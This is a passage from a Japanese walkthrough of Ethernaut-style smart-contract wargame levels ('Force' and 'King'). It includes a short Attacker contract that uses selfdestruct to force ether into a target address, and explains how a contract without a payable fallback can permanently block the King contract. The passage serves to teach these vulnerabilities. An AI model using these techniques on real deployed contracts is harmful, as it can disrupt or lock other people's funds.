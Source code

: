 
```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

`selfdestruct(address)` という組み込み関数を使う。 この関数を使用す
ると、自身のコントラクトコードをストレージから削除し、全ての残高を `address`
へ送金できる。このとき、 `address` にpayableなメソッドが存在しなくてもよい。
この問題以降は、自分で攻撃用のコントラクトを書 いてデプロイする
必要がある。自分の場合は、 [Remix](https://remix.ethereum.org/) を使った。

```solidity
contract Attacker {
    function Attacker() public payable {
        address victim = 0x1384Dee841458867C7DD45e2263CD485E5c96567;
        selfdestruct(victim);
    }
}
```

コントラクトのデプロイ時にetherを付与しおく必要がある。

## 6. King

```solidity
contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

`king.transfer(msg.value);` が失敗することを想定していない。
Payableなメソッドが存在しないコントラクトから一回送金すれば、以降は
`king.transfer(msg.value);` で常に例外が発生して、 `king` が更新不可能になる。
